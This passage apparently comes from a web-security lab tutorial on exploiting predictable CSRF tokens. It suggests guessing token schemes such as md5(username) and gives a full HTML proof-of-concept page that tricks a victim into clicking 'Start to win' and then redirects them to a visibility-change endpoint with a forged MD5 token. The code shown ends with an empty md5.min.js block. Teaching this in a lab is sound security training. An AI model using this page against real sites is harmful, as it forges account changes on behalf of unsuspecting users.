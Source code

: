 When assessing how robust a CSRF token generation mechanism is, make sure you spend a small amount of time trying to come up with the CSRF token generation mechanism. It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username)`, etc. Please note that you should not spend much time on this, but it is worth a shot.

Now that we know how the CSRF token for this action is generated let us see how we can attack other users through CSRF.

Find below the malicious page. Save it as `press_start_2_win.html`:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```
For your malicious page to have MD5-hashing functionality, save the below as md5.min.js and place it in the directory where the malicious page resides:
```javascript
```